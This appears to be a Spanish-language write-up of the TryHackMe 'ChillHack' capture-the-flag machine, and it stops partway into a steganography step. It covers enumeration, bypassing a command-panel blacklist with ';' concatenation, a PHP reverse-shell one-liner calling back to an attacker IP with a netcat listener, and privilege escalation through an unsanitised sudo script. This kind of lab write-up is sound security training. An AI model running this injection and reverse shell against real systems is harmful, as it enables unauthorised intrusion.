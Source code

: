 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- Realizar una conxexión FTP.
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- 
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible aaceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos el cual tiene una *blacklist* por medio de la cual está filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando paalbras, cambiando caracteres por el signo de interrogació, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: *Anurodh told me that there is some filtering on strings being put in the command -- Apaar*.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así que antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverseshell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra un archivo 'local.txt' donde se encuentra el código *php* de la web del panel de comandos y se observa una *blacklist* con las palabras prohibidas para introducir, por las cuales saltaba anteriormente el mensaje de alerta. Pero más interesante es el archivo oculto'.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la quie quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>

Una vez hecho esto se comprueb el usuario alcanzado y su id.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)

**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

A continuación se inspecciona el contenido del directorio '/var/www/files' en el cual hay un archivo *php* llamado 'hacker.php' que se puede ejecutar con el usuario Apaar. En este se nombra la imagen 'hacker-with-laptop_23-2147985341.jpg' y nos induce a analizarla más allá de lo que pueda mostrar a simple vista. Una referencia clara a buscar información oculta en la imagen por medio de esteganografía.

![Captura de pantalla 2025-04-13 213653](https://github.com/user-attachments/assets/52295999-99d8-499c-8ef8-48722fa0706f)

Así pues, primero se debe descargar la imagen creando un servidor desde la carpeta contenedora de la imagen con el móculo *http.server*, de **Python3**. Se indica el puerto en el que se hospedará el servidor y desde el navegador se puede comprobar la creación del servidor y la existencia de la imagen y el resto de archivos del directorio en cuestión.

![Captura de pantalla 2025-04-13 214254](https://github.com/user-attachments/assets/a45013b7-436a-4c73-a04e-4758747414f1)


